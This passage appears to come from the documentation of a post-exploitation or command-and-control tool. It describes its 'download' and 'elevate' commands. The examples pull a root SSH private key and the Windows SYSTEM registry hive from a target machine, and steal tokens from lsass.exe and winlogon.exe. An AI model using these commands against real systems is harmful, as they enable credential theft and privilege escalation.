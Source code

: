 |       |                             |
| ----- | --------------------------- |
| OS    | Any                         |
| OPsec | Safe                        |
| Admin | Maybe _(depends on target)_ |

Download a remote file. If the local path is non-empty and not omitted,
the downloaded contents will be saved to that local path. Otherwise the
contents of the file will be displayed on screen, similar to the `cat`
command.

Environment variables are processed on the client (for the remote_path).

### Examples:

```shell
download /root/.ssh/id_rsa ~/keys.pem
download C:/important-file.txt
download C:/Windows/system32/config/SYSTEM system.reg
```

## elevate

```text
elevate [pid | process_name]
```

|       |                             |
| ----- | --------------------------- |
| OS    | Any                         |
| OPsec | Safe                        |
| Admin | Maybe _(depends on target)_ |

Attempt to steal and use a token from the target process.

If the pid and/or name is not supplied, the parent filter will be used,
which can be updated with the parent commands.

If no pid or name is supplied and the parent filter is empty, this will
return an error.

### Examples:

```shell
elevate
elevate 1337
elevate lsass.exe
elevate winlogon.exe
```

## evade
